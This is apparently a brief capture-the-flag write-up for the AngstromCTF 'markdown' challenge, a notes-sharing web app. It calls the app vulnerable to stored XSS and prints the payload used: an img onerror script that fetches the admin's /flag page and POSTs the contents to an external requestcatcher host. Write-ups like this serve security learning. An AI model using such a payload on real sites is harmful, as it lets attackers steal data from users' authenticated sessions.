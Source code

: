 <font size = '4'>
<p align = 'center'>
<b>
AngstromCTF - markdown Writeup 
</b>
</p>
</font>

<br>
<font size = '3'>

<b>Challenge Description:</b><br>

My friend made an app for sharing their notes!

App: https://markdown.web.actf.co/

Send them a link: https://admin-bot.actf.co/markdown

index.js

<br>

<b>Exploitation:</b><br>

The app is vulnerable to stored XSS.

Payload used:
```html
<img src=x onerror="fetch('https://markdown.web.actf.co/flag').then(response => console.log(response.status) || response).then(response => response.text()).then(body => fetch('https://mishajain123.requestcatcher.com',{method:'POST',body:body}))">
```
